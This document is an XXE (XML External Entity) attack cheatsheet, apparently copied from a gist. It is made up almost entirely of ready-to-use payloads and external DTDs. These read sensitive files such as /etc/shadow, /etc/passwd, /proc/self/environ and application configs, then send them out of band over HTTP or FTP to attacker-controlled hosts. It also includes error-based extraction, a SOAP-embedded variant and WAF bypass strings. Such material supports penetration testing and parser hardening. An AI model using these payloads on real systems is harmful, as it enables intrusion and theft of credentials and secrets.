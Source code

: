 XXE Cheatsheet

# XXE Cheatsheet

From:<https://gist.githubusercontent.com/staaldraad/01415b990939494879b4/raw/25cff41582552aee47b06526d568f5785af67deb/XXE_payloads> 

### Vanilla, used to verify outbound xxe or blind xxe
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://x.x.x.x:443/test.txt">
]>
<r>&sp;</r>
```

### OoB extraction
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

External dtd:
```
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">
```

### OoB variation of above (seems to work better against .NET)
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
%exfil;
]>
```
External dtd:
```
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">
```

### OoB extraction
```
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/shadow">
<!ENTITY % sp SYSTEM "http://EvilHost:port/sp.dtd">
%sp;
%param3;
%exfil;
]>
```
External dtd:
```
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://Evilhost:port/%data3;'>">
```

### OoB extra ERROR -- Java
```
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/passwd">
<!ENTITY % sp SYSTEM "http://x.x.x.x:8080/ss5.dtd">
%sp;
%param3;
%exfil;
]>
<r></r>
```
External dtd:
```
<!ENTITY % param1 '<!ENTITY &#x25; external SYSTEM "file:///nothere/%payload;">'> %param1; %external;
```

### OoB extra nice
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
 <!ENTITY % start "<![CDATA[">
 <!ENTITY % stuff SYSTEM "file:///usr/local/tomcat/webapps/customapp/WEB-INF/applicationContext.xml ">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://evil/evil.xml">
%dtd;
]>
<root>&all;</root>
```

External dtd:
```
<!ENTITY all "%start;%stuff;%end;">
```

### File-not-found exception based extraction
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [  
  <!ENTITY % one SYSTEM "http://attacker.tld/dtd-part" >
  %one;
  %two;
  %four;
]>
```
External dtd:
```
<!ENTITY % three SYSTEM "file:///etc/passwd">
<!ENTITY % two "<!ENTITY % four SYSTEM 'file:///%three;'>">
```
* You might need to encode this % (depends on your target) as: `&#x25;`

### FTP
```
<?xml version="1.0" ?>
<!DOCTYPE a [ 
<!ENTITY % asd SYSTEM "http://x.x.x.x:4444/ext.dtd">
%asd;
%c;
]>
<a>&rrr;</a>
```
External dtd:
```
<!ENTITY % d SYSTEM "file:///proc/self/environ">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">
```

### Inside SOAP body
```
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

### Untested - WAF Bypass
```
<!DOCTYPE :. SYTEM "http://"
<!DOCTYPE :_-_: SYTEM "http://"
<!DOCTYPE {0xdfbf} SYSTEM "http://"
```

